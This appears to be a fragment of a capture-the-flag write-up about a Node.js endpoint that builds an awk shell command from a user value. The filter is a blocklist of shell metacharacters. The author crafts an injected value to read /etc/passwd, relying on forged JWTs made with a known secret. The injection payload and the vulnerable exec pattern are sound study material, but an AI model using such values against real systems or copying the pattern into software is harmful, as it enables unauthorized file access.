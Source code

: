 ```js
  const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
  const badInUser = bad.some(char => user.includes(char));
  if(badInUser) {
    return res.status(500).send("Bad character detected.")
  }
  exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
    if(stdout) {
      return res.status(200).send(new Buffer(stdout, 'binary'));
    }
    if (error) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
    if (stderr) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
  })
}) 
``` 

And the arbitrary file read with awk: 
```bash
awk '//' /etc/passwd
``` 

So the following could work I think:
```js
const user == "/' /etc/passwd '"
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
    if(stdout) {
      return res.status(200).send(new Buffer(stdout, 'binary'));
    }
    if (error) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
    if (stderr) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
  })
})
``` 

We can do this because we control the user variable since we know the secret to sign the JWTs.  